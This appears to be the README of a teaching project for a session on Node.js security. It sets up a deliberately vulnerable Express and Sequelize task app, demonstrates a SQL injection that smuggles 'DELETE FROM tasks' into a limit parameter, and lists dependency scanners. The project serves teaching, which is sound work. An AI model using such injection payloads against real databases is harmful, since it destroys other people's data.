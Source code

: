 # node-security-brown-bag
Scenarios for the brown bag session about secure node applications

## Badges

[![Known Vulnerabilities](https://snyk.io/test/github/sdepold/node-security-brown-bag/badge.svg)](https://snyk.io/test/github/sdepold/node-security-brown-bag)


## Setup
The following steps have been made to initialize the project:

```
npm install -g express-generator
cd node-security-brown-bag
express -f
yarn add sequelize@3.16 mysql
yarn add --dev sequelize-cli
node_modules/.bin/sequelize init
node_modules/.bin/sequelize model:create --name Task --attributes title:string
```

## API

```
# Reading all tasks
curl "http://localhost:3000/tasks"

# Reading a limited amount of tasks
curl "http://localhost:3000/tasks?limit=2"

# Creating a task
curl "http://localhost:3000/tasks" -d '{"title":"Some title"}'  -H 'content-type:application/json'
```

## Exploiting the app

```
curl "http://localhost:3000/tasks" -d '{"title":"some task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" -d '{"title":"some other task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" # Renders all tasks
curl "http://localhost:3000/tasks?limit=1" # Renders only a single task
curl "http://localhost:3000/tasks?limit=1;DELETE%20FROM%20tasks" # Will delete the tasks due to vulnerability
curl "http://localhost:3000/tasks" # Renders all available (aka no) tasks
```

## Security checks

### nsp

website: https://nodesecurity.io/

```
npm install --save-dev nsp
nsp check --output summary
```

### Retire.JS

Website: http://retirejs.github.io/retire.js/
Description: Walks through all (!) the (!!) installed (!!!) dependencies and 

```
npm install --save-dev retire
retire
```

### Snyk

Website: https://snyk.io

```
npm install -g snyk
snyk wizard
snyk test
```
